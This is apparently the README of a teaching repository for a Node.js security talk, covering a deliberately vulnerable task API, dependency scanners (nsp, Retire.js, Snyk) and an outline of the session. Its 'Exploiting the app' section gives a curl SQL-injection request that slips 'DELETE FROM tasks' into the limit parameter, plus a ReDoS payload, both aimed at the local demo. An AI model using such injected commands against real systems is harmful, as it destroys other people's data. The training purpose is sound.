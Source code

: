 # node-security-brown-bag
Scenarios for the brown bag session about secure node applications

## Badges

Snyk: [![Known Vulnerabilities](https://snyk.io/test/github/sdepold/node-security-brown-bag/badge.svg)](https://snyk.io/test/github/sdepold/node-security-brown-bag)

NSP: [![NSP Status](https://nodesecurity.io/orgs/barfooz/projects/df73b085-1256-4e50-90df-9358236622ee/badge)](https://nodesecurity.io/orgs/barfooz/projects/df73b085-1256-4e50-90df-9358236622ee)


## Setup
The following steps have been made to initialize the project:

```
npm install -g express-generator
cd node-security-brown-bag
express -f
yarn add sequelize@3.16 mysql
yarn add --dev sequelize-cli
node_modules/.bin/sequelize init
node_modules/.bin/sequelize model:create --name Task --attributes title:string
```

## API

```
# Reading all tasks
curl "http://localhost:3000/tasks"

# Reading a limited amount of tasks
curl "http://localhost:3000/tasks?limit=2"

# Creating a task
curl "http://localhost:3000/tasks" -d '{"title":"some title"}'  -H 'content-type:application/json'
```

## Exploiting the app

```
curl "http://localhost:3000/tasks" -d '{"title":"some task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" -d '{"title":"some other task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" # Renders all tasks
curl "http://localhost:3000/tasks?limit=1" # Renders only a single task
curl "http://localhost:3000/tasks?limit=1;DELETE%20FROM%20tasks" # Will delete the tasks due to vulnerability
curl "http://localhost:3000/tasks" # Renders all available (aka no) tasks

# ReDos attack
curl "http://localhost:3000/tasks" -d '{"title":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}'  -H 'content-type:application/json'
```

## Security checks

### nsp

Website: https://nodesecurity.io/
Description:
- Uploads package.json / npm-shrinkwrap.json to NSP servers
- Analysis happens remotely
- Renders found vulnerabilities
- Can be executed against a local copy of the vulnerability registry iif the app uses npm-shrinkwrap
- Can integrate into Github and verify Pull-Requests
- More extended plans contain weekly security reviews of pull requests as well as a pair attack session
  against your application.

```
npm install --save-dev nsp
nsp check --output summary
```

### Retire.JS

Website: http://retirejs.github.io/retire.js/
Description:
- Free
- Downloads list of known vulnerabilities to local machine
- Walks through all the installed dependencies
- Check dependencies against downloaded vulnerability list
- Prints vulnerabilities

```
npm install --save-dev retire
retire
```

### Snyk

Website: https://snyk.io
Description:
- Downloads list of known vulnerabilities to local machine
- Walks through all installed dependencies
- Checks if dependencies are vulnerable based on the downloaded list (`snyk test`)
- Allows interactive auto-healing via `snyk wizard`
- Can patch vulnerabilities that are not fixed yet via `snyk protect`
- Can notify you about new or properly fixed vulnerabilities via `snyk monitor`

```
npm install -g snyk
snyk wizard
snyk test
```

## Further resources
- Super vulnerable TODO app: https://github.com/snyk/goof
- Greenkeeper Enterprise: https://github.com/greenkeeperio/greenkeeper/projects/3
- Securing Your Node.js App: http://stackabuse.com/securing-your-node-js-app/
- Tutorial about hacking an application: http://nodegoat.herokuapp.com/tutorial
- Other, similar tools:
    - https://www.sourceclear.com
- ReDoS scanner: https://github.com/jagracey/RegEx-DoS
- Explanation about ReDoS: https://en.wikipedia.org/wiki/ReDoS

## Presentation

- Explain application
    - Show vulnerability in routes/tasks
- Use and exploit the API endpoints
- Run security checks
- Show NSP, RetireJS, Snyk
- Show https://github.com/sdepold/node-security-brown-bag/pull/3
- Create a fix via Snyk PR
- Show and merge https://github.com/sdepold/node-security-brown-bag/pull/4
- Run API requests again
- Show ReDoS exploit
- Run ReDoS test
- Fix regular expression
- Show Greenkeeper integration
